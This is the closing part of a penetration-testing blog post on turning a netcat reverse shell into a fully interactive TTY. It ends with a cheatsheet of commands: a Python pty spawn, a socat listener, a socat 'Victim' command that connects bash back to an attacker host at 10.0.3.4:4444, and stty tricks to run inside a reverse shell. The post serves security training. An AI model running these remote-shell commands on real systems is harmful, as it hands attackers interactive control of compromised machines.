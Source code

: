 ```bash
$ export SHELL=bash
$ export TERM=xterm256-color
$ stty rows 38 columns 116
```

The end result is a fully interactive TTY with all the features we'd expect (tab-complete, history, job control, etc) all over a netcat connection:

![Netcat full TTY](/images/2017/07/netcat_full_tty.png)

The possibilities are endless now. Tmux over a netcat shell?? Why not? :D

![Tmux over Netcat](/images/2017/07/tmux_over_netcat-1.png)


# tl;dr cheatsheet
Cheatsheet commands:

**Using Python for a psuedo terminal**
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

**Using socat**
```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

**Using stty options**
```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

Any other cool techniques? Let me know in the comments or hit me up on twitter.

Enjoy!
-ropnop
